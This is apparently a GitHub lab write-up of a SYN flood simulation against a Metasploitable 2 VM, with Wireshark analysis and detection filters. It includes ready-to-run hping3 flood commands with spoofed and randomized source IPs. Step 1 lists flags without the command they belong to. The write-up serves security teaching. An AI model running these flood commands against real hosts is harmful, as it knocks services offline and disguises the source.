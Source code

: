 # 📝 DDoS Simulation Lab Notes

## 🧠 Objective

Simulate a simple DDoS (SYN flood) attack on a Metasploitable 2 VM from Kali Linux and analyze the packet traffic using Wireshark.

---

## 💽 Lab Setup

* **Attacker**: Kali Linux (running `hping3`)
* **Target**: Metasploitable 2
* **Monitor**: Wireshark running on attacker machine
* **Virtualization**: VirtualBox with Host-Only Adapter

---

## Detailed Methodology

### 1.
Started metasploit 2 and checked ```ifconfig``` the ip address of the victim machine.
![Ddos lab](https://github.com/HariCyber-Sec/ddos-simulation-lab/blob/main/screenshots/1.jpg)


* `-S`: SYN flag
* `--flood`: send packets as fast as possible
* `-V`: verbose mode

### 2. SYN Flood with Spoofed Source IP

```bash
hping3 -S 192.168.56.102 -a 10.10.10.10 -p 80 --flood
```

* `-a`: spoofed IP address
* `-p`: destination port

### 3. SYN Flood with Randomized Source IPs & Payload

```bash
hping3 -S 192.168.56.102 -d 120 -p 80 --flood --rand-source
```

* `-d`: data size of each packet (in bytes)
* `--rand-source`: use random source IPs

> 📌 Tip: Run all commands as root for full functionality

---

## 🧪 Observations During Attack

* CPU usage on Metasploitable 2 spiked
* Network became unresponsive to ping after sustained SYN flooding
* Wireshark captured high volume of SYN packets, some with spoofed or random IPs

---

## 🔍 Wireshark Filters Used

To analyze SYN flood pattern:

```wireshark
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

To monitor TCP connections:

```wireshark
tcp.analysis.flags
```

---

## 📂 Files

* `wireshark-captures/ddos-attack.pcapng`: Full capture of SYN flood
* `scripts/hping3_ddos.sh`: Simple bash script to run attack variants

---

## 📸 Screenshots Collected

* ![Kali attack terminal](../screenshots/kali-attack.png)
* ![Metasploitable CPU usage](../screenshots/metasploitable-target.png)
* ![Wireshark SYN flood](../screenshots/wireshark-analysis.png)
* ![Random IP SYN packets](../screenshots/random-source-syn.png)
* ![Spoofed IP attack](../screenshots/spoofed-ip-syn.png)

---

## ✅ Summary

This simulation demonstrates how different types of SYN flood attacks (including spoofed and randomized source IPs) generate abnormal traffic that can be identified using packet inspection tools like Wireshark. All actions were performed in an ethical, isolated test lab.

---

## ⚠️ Disclaimer

This project is for **educational purposes only** and was performed in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.
